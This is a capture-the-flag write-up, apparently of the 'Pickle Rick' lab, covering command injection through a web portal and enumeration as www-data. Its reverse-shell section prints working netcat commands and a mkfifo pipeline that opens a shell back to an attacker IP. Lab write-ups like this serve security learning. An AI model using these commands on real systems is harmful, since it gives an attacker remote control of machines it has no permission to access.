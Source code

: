 ```
total 40K
drwxr-xr-x 3 root   root   4.0K Feb 10  2019 .
drwxr-xr-x 3 root   root   4.0K Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4.0K Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1.1K Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1.1K Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1.5K Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2.0K Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

After further attempted exploitation, I tried to run:
```
cat Sup3rS3cretPickl3Ingred.txt; echo; cat clue.txt; echo; whoami; echo; ps -aux; groups
```

Which returns _Command disabled to make it hard for future PICKLEEEE RICCCKKKK._ (¬.¬) ....

Fortunately the command input is only _temporarily_ disabled. And after a little fiddling around find that it's the `cat` command that's disabled. Though, interestingly the error message's source does contain some type of hashed data?

```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

The `whoami` command let me know that we're running as `www-data`.

The `ls /home` command shows there are two users with directories there: `rick`, `ubuntu`.

#### Trying to get a reverse netcat shell

I'd tried to figure out what the hell the above hash was, but to no avail, so lets see if we can get a reverse shell on the machine and get a more interactive interface to toy around with.

We'll need to listen for connections on our attacker machine.

```
# On the attacker machine
nc -lvp 4444
```

```
# On the victim machine, run netcat, and on connect, create a shell
nc 10.11.8.219 4444 -e /bin/sh
```

The connection failed, which could be down to the _version_ of netcat. So I ran `man netcat` via the portal input. Which returned a hint on how to bypass this:

```
There is no -c or -e option in this netcat, but you still can execute a
     command after connection being established by redirecting file descrip-
     tors. Be cautious here because opening a port and let anyone connected
     execute arbitrary command on your site is DANGEROUS. If you really need
     to do this, here is an example:

     On 'server' side:

           $ rm -f /tmp/f; mkfifo /tmp/f
           $ cat /tmp/f | /bin/sh -i 2>&1 | nc 10.11.8.219 4444 > /tmp/f
```
